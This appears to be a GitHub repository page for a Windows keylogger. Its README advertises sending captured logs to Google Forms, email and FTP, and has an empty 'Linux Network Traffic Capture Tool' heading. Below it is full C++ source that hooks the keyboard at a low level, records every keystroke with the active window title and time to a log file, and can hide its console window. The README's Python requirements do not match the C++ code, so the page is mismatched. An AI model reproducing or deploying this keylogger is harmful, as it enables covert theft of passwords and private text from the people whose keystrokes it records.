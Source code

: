 #Windows Keylogger & a Linux Network Traffic Capture Tool 
=================

#FEATURES
========
#1.STORE LOGS LOCALLY
#2.SEND LOGS TO GOOGLE FORMS
#3.SEND LOGS TO EMAIL
#4.SEND LOGS TO FTP

#MINIMUM REQUIREMENTS
===================
#Python 3.7 or higher: https://www.python.org/downloads/
#pyHook Module: http://sourceforge.net/projects/pyhook/
#PythonCOM Module: http://sourceforge.net/projects/pywin32/ 
#Platform: Windows 

Network Traffic Capture Tool - DNS Zone transfers 
# REQUIREMENTS
==============
#Linux-based OS or Kali Linux VirtualBox  
#Python 3.7 Kali extension or https://www.python.org/downloads/
#OpenSSH  

#define UNICODE
#include <Windows.h>
#include <cstdio>
#include <fstream>
#include <iostream>
#include <sstream>
#include <time.h>
#include <map>

// defines whether the window is visible or not
// should be solved with makefile, not in this file
#define visible // (visible / invisible)
// defines which format to use for logging
// 0 for default, 10 for dec codes, 16 for hex codex
#define FORMAT 0
// defines if ignore mouseclicks
#define mouseignore
// variable to store the HANDLE to the hook. Don't declare it anywhere else then globally
// or you will get problems since every function uses this variable.

#if FORMAT == 0
const std::map<int, std::string> keyname{ 
	{VK_BACK, "[BACKSPACE]" },
	{VK_RETURN,	"\n" },
	{VK_SPACE,	"_" },
	{VK_TAB,	"[TAB]" },
	{VK_SHIFT,	"[SHIFT]" },
	{VK_LSHIFT,	"[LSHIFT]" },
	{VK_RSHIFT,	"[RSHIFT]" },
	{VK_CONTROL,	"[CONTROL]" },
	{VK_LCONTROL,	"[LCONTROL]" },
	{VK_RCONTROL,	"[RCONTROL]" },
	{VK_MENU,	"[ALT]" },
	{VK_LWIN,	"[LWIN]" },
	{VK_RWIN,	"[RWIN]" },
	{VK_ESCAPE,	"[ESCAPE]" },
	{VK_END,	"[END]" },
	{VK_HOME,	"[HOME]" },
	{VK_LEFT,	"[LEFT]" },
	{VK_RIGHT,	"[RIGHT]" },
	{VK_UP,		"[UP]" },
	{VK_DOWN,	"[DOWN]" },
	{VK_PRIOR,	"[PG_UP]" },
	{VK_NEXT,	"[PG_DOWN]" },
	{VK_OEM_PERIOD,	"." },
	{VK_DECIMAL,	"." },
	{VK_OEM_PLUS,	"+" },
	{VK_OEM_MINUS,	"-" },
	{VK_ADD,		"+" },
	{VK_SUBTRACT,	"-" },
	{VK_CAPITAL,	"[CAPSLOCK]" },
};
#endif
HHOOK _hook;

// This struct contains the data received by the hook callback. As you see in the callback function
// it contains the thing you will need: vkCode = virtual key code.
KBDLLHOOKSTRUCT kbdStruct;

int Save(int key_stroke);
std::ofstream output_file;

// This is the callback function. Consider it the event that is raised when, in this case,
// a key is pressed.
LRESULT __stdcall HookCallback(int nCode, WPARAM wParam, LPARAM lParam)
{
	if (nCode >= 0)
	{
		// the action is valid: HC_ACTION.
		if (wParam == WM_KEYDOWN)
		{
			// lParam is the pointer to the struct containing the data needed, so cast and assign it to kdbStruct.
			kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);

			// save to file
			Save(kbdStruct.vkCode);
		}
	}

	// call the next hook in the hook chain. This is nessecary or your hook chain will break and the hook stops
	return CallNextHookEx(_hook, nCode, wParam, lParam);
}

void SetHook()
{
	// Set the hook and set it to use the callback function above
	// WH_KEYBOARD_LL means it will set a low level keyboard hook. More information about it at MSDN.
	// The last 2 parameters are NULL, 0 because the callback function is in the same thread and window as the
	// function that sets and releases the hook.
	if (!(_hook = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, NULL, 0)))
	{
		LPCWSTR a = L"Failed to install hook!";
		LPCWSTR b = L"Error";
		MessageBox(NULL, a, b, MB_ICONERROR);
	}
}

void ReleaseHook()
{
	UnhookWindowsHookEx(_hook);
}


int Save(int key_stroke)
{
	std::stringstream output;
	static char lastwindow[256] = "";
#ifndef mouseignore 
	if ((key_stroke == 1) || (key_stroke == 2))
	{
		return 0; // ignore mouse clicks
	}
#endif
	HWND foreground = GetForegroundWindow();
	DWORD threadID;
	HKL layout = NULL;

	if (foreground)
	{
		// get keyboard layout of the thread
		threadID = GetWindowThreadProcessId(foreground, NULL);
		layout = GetKeyboardLayout(threadID);
	}

	if (foreground)
	{
		char window_title[256];
		GetWindowTextA(foreground, (LPSTR)window_title, 256);

		if (strcmp(window_title, lastwindow) != 0)
		{
			strcpy_s(lastwindow, sizeof(lastwindow), window_title);

			// get time
			time_t t = time(NULL);
			struct tm tm;
			localtime_s(&tm, &t);
			char s[64];
			strftime(s, sizeof(s), "%c", &tm);

			output << "\n\n[Window: " << window_title << " - at " << s << "] ";
		}
	}

#if FORMAT == 10
	output << '[' << key_stroke << ']';
#elif FORMAT == 16
	output << std::hex << "[" << key_stroke << ']';
#else
	if (keyname.find(key_stroke) != keyname.end())
	{
		output << keyname.at(key_stroke);
	}
	else
	{
		char key;
		// check caps lock
		bool lowercase = ((GetKeyState(VK_CAPITAL) & 0x0001) != 0);

		// check shift key
		if ((GetKeyState(VK_SHIFT) & 0x1000) != 0 || (GetKeyState(VK_LSHIFT) & 0x1000) != 0
			|| (GetKeyState(VK_RSHIFT) & 0x1000) != 0)
		{
			lowercase = !lowercase;
		}

		// map virtual key according to keyboard layout
		key = MapVirtualKeyExA(key_stroke, MAPVK_VK_TO_CHAR, layout);

		// tolower converts it to lowercase properly
		if (!lowercase)
		{
			key = tolower(key);
		}
		output << char(key);
	}
#endif
	// instead of opening and closing file handlers every time, keep file open and flush.
	output_file << output.str();
	output_file.flush();

	std::cout << output.str();

	return 0;
}
void Stealth()
{
#ifdef visible
	ShowWindow(FindWindowA("ConsoleWindowClass", NULL), 1); // visible window
#endif

#ifdef invisible
	ShowWindow(FindWindowA("ConsoleWindowClass", NULL), 0); // invisible window
#endif
}

int main()
{
	// open output file in append mode
	const char* output_filename = "keylogger.log";
	std::cout << "Logging output to " << output_filename << std::endl;
	output_file.open(output_filename, std::ios_base::app);

	// visibility of window
	Stealth();

	// set the hook
	SetHook();

	// loop to keep the console application running.
	MSG msg;
	while (GetMessage(&msg, NULL, 0, 0))
	{
	}
}